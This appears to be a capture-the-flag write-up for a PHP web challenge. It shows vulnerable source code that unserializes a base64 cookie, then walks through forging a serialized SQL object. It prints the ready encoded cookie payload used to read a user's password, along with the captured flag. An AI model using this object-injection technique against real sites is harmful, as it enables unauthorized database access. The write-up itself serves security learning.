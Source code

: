 # Task
![image](https://user-images.githubusercontent.com/44528004/132701258-bb744fd5-f757-42b7-88c9-edc1dbaa1a56.png)

# Solution
## Initial observation
The first source:
```php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
```

The second source:
```php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

From these sources, we can see that the `leet_hax0r` cookie is an associative array with `ip` as a property. This array is then serialized and encoded in base64 before being transmitted to the client.

When the server receives a request, it decodes the `leet_hax0r` cookie value, unserializes it and stored in `$sess_data`. Then, it checks whether `$sess_data` is an array and its `ip`'s value is of the IP address of the server. If either is wrong, **CANT HACK US!!!** is returned. Also, if the `id` parameter is set and is of integer, it will perform a SQL query.

In the second source code, the interesting here is the `__destruct()` method because it will be called when a `SQL` object is deleted. In addition, the `username` column from the result of the SQL query will be echoed.

## Exploitation
From the above information, we can guess that this application is vulnerable to **object injection**.  
In order to execute an arbitrary SQL query, we need to craft ourselves an `SQL` object whose properties are similar to those of the `$sql` on the server.
```php
class SQL {
    public $query = '';
    public $conn;
}

$inj = new SQL();
```
As SQL is not an array, we completely bypass the first `if..else..` block:
```php
if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
    die('CANT HACK US!!!');
}
```

When giving `1` as the **User id**, we get **Username: flag**; therefore, we might want the `password` of this user.  
Our query would be
```sql
SELECT password FROM users WHERE username='flag';
```

However, only the column named `usernamed` is echoed back, we need an alias:
```sql
SELECT password as username FROM users WHERE username='flag';
```

Now, our `$inj` object would be:
```
$inj->query = "SELECT password as username FROM users WHERE username='flag';";
```

Let's serialize and encode this object:
```
php > $sql->query = "SELECT password as username FROM users WHERE username='flag';";
php > echo urlencode(base64_encode(serialize($sql)));
TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NjE6IlNFTEVDVCBwYXNzd29yZCBhcyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIHVzZXJuYW1lPSdmbGFnJzsiO3M6NDoiY29ubiI7Tjt9
```

Modify the `` cookie value to our value.  

![image](https://user-images.githubusercontent.com/44528004/132871370-ff4b11c1-f9d4-41fe-9a12-62b43a5c71d4.png)

And got the result:  

![image](https://user-images.githubusercontent.com/44528004/132871429-b6e5279b-2545-4c27-97cc-0e4287c82801.png)
> Flag: `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`
